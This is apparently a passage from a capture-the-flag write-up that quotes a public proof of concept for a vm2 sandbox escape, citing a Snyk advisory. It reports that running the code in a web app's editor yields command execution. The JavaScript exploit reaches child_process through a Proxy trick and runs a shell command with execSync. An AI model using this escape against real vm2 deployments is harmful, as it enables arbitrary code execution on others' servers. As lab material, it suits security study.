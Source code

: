 ![](img/codify3.png)

A POC for vulnerability testing is reported at URL [https://security.snyk.io/vuln/SNYK-JS-VM2-5537100](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100).

```js
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("echo hacked").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

POC was used in the editor offered by the webapp. The string "hacked" is correctly shown.
